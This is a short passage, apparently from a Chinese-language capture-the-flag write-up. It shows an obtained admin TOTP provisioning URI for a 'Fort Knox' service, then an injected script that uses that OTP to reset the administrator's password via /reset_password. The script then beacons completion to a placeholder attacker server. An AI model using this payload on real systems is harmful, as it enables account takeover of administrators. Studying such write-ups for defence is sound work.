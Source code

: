 ```
        });
    })
};
</script>
```

获得管理员的OTP

```
otpauth://totp/Fort%20Knox:admin?secret=4LD5HQA4HVJGQPDV&issuer=Fort%20Knox
```

然后重置管理员密码

```
<script>
setTimeout(reset_password, 5000);

function reset_password() {
    data = {
      "otp": "<admin OTP>",  // change this
      "password": "hoge",
      "password2": "hoge"
    }

    fetch("/reset_password", {
      method: "POST",
      headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
      },
      body: JSON.stringify(data)
    }).then(res => {
        var i = new Image(1, 1);
        i.src = "https://<myserver>/?message=password_change_done";
    });
  };
</script>
```

